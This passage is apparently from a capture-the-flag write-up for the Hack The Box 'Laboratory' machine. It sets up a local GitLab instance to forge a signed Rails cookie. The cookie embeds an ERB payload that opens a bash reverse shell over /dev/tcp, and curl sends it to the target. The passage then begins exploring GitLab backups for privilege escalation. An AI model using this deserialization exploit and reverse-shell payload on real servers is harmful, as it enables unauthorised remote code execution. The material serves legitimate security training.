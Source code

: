 * setup GitLab Instance

  * pull and run

	    export GITLAB_HOME=/srv/gitlab

		sudo docker run --detach \
		  --hostname gitlab.x00tex.com \
		  --publish 443:443 --publish 80:80 --publish 22:22 \
		  --name gitlab \
		  --restart always \
		  --volume $GITLAB_HOME/config:/etc/gitlab \
		  --volume $GITLAB_HOME/logs:/var/log/gitlab \
		  --volume $GITLAB_HOME/data:/var/opt/gitlab \
		  gitlab/gitlab-ce:12.8.1-ce.0

	    sudo docker exec -it gitlab /bin/bash

    * start run and stop gitlab 
	      
	      sudo docker start gitlab
	      sudo docker exec -it gitlab /bin/bash
	      sudo docker stop gitlab

  * Edit `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` file and change `secret_key_base` with box key.
  * open rails console

		gitlab-rails console
	    
* generating cookie

	  request = ActionDispatch::Request.new(Rails.application.env_config)
	  request.env["action_dispatch.cookies_serializer"] = :marshal
	  cookies = request.cookie_jar
	  erb = ERB.new("<%= `/bin/bash -c 'bash -i >& /dev/tcp/tun0/4141 0>&1'` %>")
	  depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@Result", ActiveSupport::Deprecation.new)
	  cookies.signed[:cookie] = depr
	  puts cookies[:cookie]


* send cookie to the server:

	  curl -k -vvv 'https://git.laboratory.htb/users/sign_in/' -b "experimentation_subject_id=<COOKIE>"

![](/assets/img/posts/laboratory/git_pwn.gif)

## User esclate

* user git home is `/var/opt/gitlab` and there is a backups folder -
```diff
(remote) git@git.laboratory.htb:/$ cd
(remote) git@git.laboratory.htb:/var/opt/gitlab$ ls -la
total 96
drwxr-xr-x 20 root              root       4096 Dec  3 06:17 .
drwxr-xr-x  1 root              root       4096 Feb 24  2020 ..
+drwx------ 4 git               root       4096 Dec  3 11:00 backups
```
* in gitlab there is a gitlab-backup util -
```
(remote) git@git.laboratory.htb:/var/opt/gitlab$ gitlab-backup --help
Usage: gitlab-backup COMMAND [OPTIONS]

OPTIONS:

  -h, --help    Display this help message and exits. Use `COMMAND --help`
                for more information on a command.

COMMANDS:
```